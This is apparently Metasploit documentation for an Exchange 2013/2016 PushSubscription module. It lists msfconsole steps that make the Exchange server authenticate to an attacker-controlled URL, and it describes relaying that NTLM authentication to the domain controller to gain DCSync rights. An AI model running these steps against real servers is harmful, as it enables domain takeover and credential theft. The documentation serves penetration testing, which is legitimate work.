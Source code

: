 ## Vulnerable Application

  * Microsoft Exchange 2013 and 2016
  * Tested on Exchange 2016
  * Usage:
    * Download and install Exchange Server within a Windows domain
    * Setup a mailbox with a domain user
    * Run the module
    * Relay the NTLM authentication to the DC

## Verification Steps

  Example steps:

  1. Start msfconsole
  2. Do: ```use auxiliary/scanner/http/exchange_web_server_pushsubscription```
  3. Do: ```set attacker_url <url>```
  4. Do: ```set rport <target_port>```
  5. Do: ```set rhost <target_IP>```
  6. Do: ```set domain <domain_name>```
  7. Do: ```set password <user_pass>```
  8. Do: ```set username <user_pass>```
  9. Do: ```run```

## Options

  **The ATTACKER_URL option**

  This option should contain a URL under the attacker's control. This is where the Exchange will try to authenticate.

## Scenarios

  This module can be used to make a request to the Exchange server and force it to authenticate to a URL under our control. 
  An example scenario is that when this module is combined with an NTLM relay attack, if the Exchange server has the necessary permissions it is possible to grant us DCSync rights.
